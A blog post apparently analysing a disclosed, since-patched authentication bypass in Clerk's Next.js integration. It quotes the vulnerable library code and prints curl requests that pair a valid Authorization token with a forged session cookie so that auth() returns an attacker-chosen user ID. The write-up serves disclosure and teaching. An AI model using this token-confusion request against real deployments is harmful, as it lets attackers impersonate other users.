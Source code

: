 ```yaml
---
title: "Investigating a major security vulnerability with Clerk's Next.js integration"
description: "Figuring out how a major auth provider fucked up."
date: "2024-01-26"
---
```


On January 12th 2024, Clerk [disclosed a major security vulnerability](https://clerk.com/changelog/2024-01-12) with their Next.js integration. Clerk is an auth provider similar to Auth0 and Firebase Auth, and Next.js is a popular JavaScript framework for building websites with React. The severity was immediately obvious. It allowed malicious actors to act on behalf of other users and had a CVSS score of 9.4 (critical).

But of course they didn't immediately publicly share the exact details of the exploit. It wasn't clear how bad the vulnerability actually was either. So instead of waiting for them to release their promised postmortem, I decided to figure it out myself. I thought it would be a fun challenge since I maintain an auth library as well.

_This was written (but not published) before their [postmortem]() was released._

## Deep dive

Reading through the vulnerability report, the only hint I could find was that it had something to do with the internals used by `auth()` and `getAuth()`. Both of these are server APIs that return the current user.

> The vulnerability impacts applications that use a Next.js backend. Specifically, those that call `auth()` in the App Router, or `getAuth()` in the Pages Router.

After looking through the source code, I found that `auth()` just used `getAuth()` under the hood, which was initialized with `createGetAuth()`. I also looked through the commit history between the patch (`4.29.3`) and the previous release (`4.29.2`), and saw that `createGetAuth()` had been rewritten. So this looked like a good place to start.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const createGetAuth = ({ debugLoggerName, noAuthStatusMessage }) =>
	withLogger(debugLoggerName, (logger) => {
		return (req, opts) => {
			const authStatus = getAuthKeyFromRequest(req, "AuthStatus");
			// ...
			if (!authStatus) {
				throw new Error(noAuthStatusMessage);
			}
			const options = {
				// ...
			};
			if (authStatus !== AuthStatus.SignedIn) {
				return signedOutAuthObject(options);
			}
			const jwt = parseJwt(req);
			const signedIn = signedInAuthObject(jwt.payload, { ...options, token: jwt.raw.text });
			// ...
			return signedIn;
		};
	});
```

One thing sticked out to me immediately - `parseJwt()`. Here I learned Clerk uses JWT (JSON Web Token) for session tokens.

For those that don't know what a JWT is, it's a token with some JSON data (such as user ID) and a signature embedded into it. The signature allows you to verify the integrity of the JSON data using a secret key. It's become popular as it allows you to validate tokens without a database - though it of course comes with its own downsides.

But `parseJwt()` just decoded the JWT payload. Why was it not validating the signature? That... can't be it right? Surely a multimillion dollar company won't make such a dumb mistake. And of course they didn't. Reading the code again, there was an `if` statement to check the current auth status before it decoded the token. That status was stored in... the request?! Apparently the current auth status among other attributes were either directly stored in the `Request` object or as a custom header.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/utils.js
function getAuthKeyFromRequest(req, key) {
	return (
		getCustomAttributeFromRequest(req, constants.Attributes[key]) ||
		getHeader(req, constants.Headers[key]) ||
		(key === "AuthStatus" ? getQueryParam(req, constants.SearchParams.AuthStatus) : void 0)
	);
}
```

So my guess was that they were validating the token somewhere, storing the current status to the request header as `AuthStatus`, and then parsing the token again when it needed to get the user if `AuthStatus` was set to `"signed-in"`.

And that was exactly what was happening because Clerk used Next.js middleware.

Middleware allows you to run code on every request as well as modify the request/response. But unlike middleware in every other framework, in Next.js it runs on the _Edge™_ - basically a CDN that runs your code. This means the server hosting the middleware can be different from rest of your application even for the same request. You can't just pass JS objects, such as the current user, between middleware and route handlers (where `auth()` is used). Instead, you have to add custom headers to the request.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/authMiddleware.js
const authMiddleware = (...args) => {
	// ...
	return withLogger("authMiddleware", (logger) => async (_req, evt) => {
		const req = withNormalizedClerkUrl(_req);
		// ...
		// checks if authenticated
		const requestState = await authenticateRequest(req, options);
		// ...
		// set custom headers to be read by `auth()`
		return decorateRequest(req, finalRes, requestState);
	});
};
```

So at first, I thought maybe the vulnerability was that you can just send a `AuthStatus` header with a parsable, but invalid JWT. Maybe you could trick `auth()` into thinking that the token had been already validated and it would parse the token without validating it.

```bash
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl https://localhost:3000 \
    -H "Cookie: __session=$FAKE_TOKEN;__client_uat=1705888300" \
    -H "User-Agent": "im a browser i swear" \
    -H "X-Clerk-Auth-Status": "signed-in"
```

But again, it wasn't that simple. The middleware will set the `AuthStatus` header even for unauthenticated request so you can't manually override it.

I was stuck for a while but then realized I missed something.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const parseJwt = (req) => {
	const cookieToken = getCookie(req, constants.Cookies.Session);
	const headerToken = getHeader(req, "authorization")?.replace("Bearer ", "");
	return decodeJwt(cookieToken || headerToken || "");
};
```

`parseJwt()` reads both the `Cookie ` and `Authorization` header at the same time. **_Holy shit._**

What if you send both a valid and fake session token at the same time?

```bash
VALID_TOKEN="<VALID_SESSION>"
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl http://localhost:3000/user \
    -H "Authorization: $VALID_TOKEN" \
    -H "Cookie: __session=$FAKE_TOKEN"
```

```ts
import { auth } from "@clerk/nextjs";

export async function GET() {
	const { userId } = auth();
	console.log(`User ID: ${userId}`);
	// ...
}
```

What get's logged?

```
User ID: pwned
```

Bingo. Looking through the source code, it looks like the middleware validates the `Authorization` header first and then the cookie, while `parseJwt()` does it in the opposite order. This is a big yikes. A very big one. You could essentially impersonate any user with this as long as you know their user ID, which could be public information.

If you'd like to see the exploit in action, I have a [reproduction](https://github.com/pilcrowOnPaper/clerk-nextjs-vulnerability) available on GitHub.

## Closing thoughts

Clerk has fixed this issue by passing the validated token alongside `AuhStatus` in the header, and parsing that token instead. They have also worked with hosting providers to prevent.

I do think this was preventable - don't use middleware at all. Next.js middleware is just not the place to handle auth. I don't like protecting routes with middleware in general, but Next.js comes with a big downside where you can't share data between middleware and route handlers directly. Clerk's attempt to go around that issue is what exactly caused the vulnerability.
